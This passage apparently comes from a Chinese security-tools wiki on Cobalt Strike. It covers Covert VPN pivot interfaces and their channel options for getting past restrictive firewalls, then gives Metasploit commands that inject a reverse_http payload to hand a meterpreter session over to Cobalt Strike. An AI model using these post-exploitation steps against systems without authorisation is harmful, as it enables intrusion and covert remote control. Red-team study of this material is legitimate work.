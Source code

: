 要管理你的 Covert VPN 接口，请进入到 Cobalt Strike - > VPN Interfaces。在这里，Cobalt Strike 将显示 Covert VPN 接口，它们的配置方式以及通过每个接口传输和接收的字节数。

选中一个接口，然后选择 “Remove” 清除该接口并关闭远程 Covert VPN 客户端。Covert VPN 将在重新启动时删除其临时文件，并立即自动撤消任何系统更改。选择 Add 以配置新的 Covert VPN 接口。

如果没有本地接口，请选择 Add 来创建。

![](../../../assets/img/Security/安全工具/CobaltStrike/45.png)

隐蔽 VPN 接口由一个网络分接头和一个用于通信 63 个以太网帧通过的通道组成。要配置接口，请填入接口名称（这是你稍后要通过 ifconfig 操作的名称）和一个 MAC 地址。

你还必须为你的接口配置 Covert VPN 通信通道。

隐蔽 VPN 可以通过 UDP 连接，TCP 连接，ICMP 或使用 HTTP 协议来通信以太网帧。 TCP(Reverse) 通道会让目标连接到你的 Cobalt Strike 实例。 TCP(Bind) 通道会让 Cobalt Strike 通过 Beacon 与 VPN 建立隧道通信。

Cobalt Strike 将基于你选择的 Local Port （本地端口） 和 Channel （通道）建立和管理与隐蔽 VPN 客户端的之间的通信。

隐蔽 VPN HTTP 通道使用 Cobalt Strike Web 服务器。你可以在同一个端口上托管其他的 Cobalt Strike web 应用和多个隐蔽 VPN HTTP 通道。

要获取最佳效果，请使用 UDP 通道。与 TCP 和 HTTP 通道相比，UDP 通道的开销最少。如果你需要通过一个限制严格的防火墙，可以使用 ICMP，HTTP 或 TCP(Bind) 通道。

虽然隐蔽 VPN 具有灵活性优势，但是具体选择使用 VPN pivot 还是代理 pivot 这取决于具体环境。隐蔽 VPN 需要管理员访问权限。代理 pivot 则不需要。隐蔽 VPN 创建新的通信通道。代理 pivot 则不会。你应该首先使用代理 pivot，然后在需要时移至 VPN pivot。

---

### Spawn

> 以下部分内容来自 <sup>[Cobalt_Strike_wiki/第十六节[MSF与CS会话互转].md](https://github.com/aleenzz/Cobalt_Strike_wiki/blob/master/%E7%AC%AC%E5%8D%81%E5%85%AD%E8%8A%82%5BMSF%E4%B8%8ECS%E4%BC%9A%E8%AF%9D%E4%BA%92%E8%BD%AC%5D.md)</sup>

**MSF 转 CS**

从已经获得 meterpreter 的时候转到 CS 只需要使用的 payload_inject 模块
```bash
meterpreter > background
msf exploit(multi/handler) > use exploit/windows/local/payload_inject
msf exploit(windows/local/payload_inject) > set payload windows/meterpreter/reverse_http
msf exploit(windows/local/payload_inject) > set lhost [host]
msf exploit(windows/local/payload_inject) > set lport [port]
msf exploit(windows/local/payload_inject) > set session [session_id]
msf exploit(windows/local/payload_inject) > set disablepayloadhandler true
msf exploit(windows/local/payload_inject) > exploit -j

# set disablepayloadhandler true 用来禁用 payload handler 的监听否则有冲突。
```

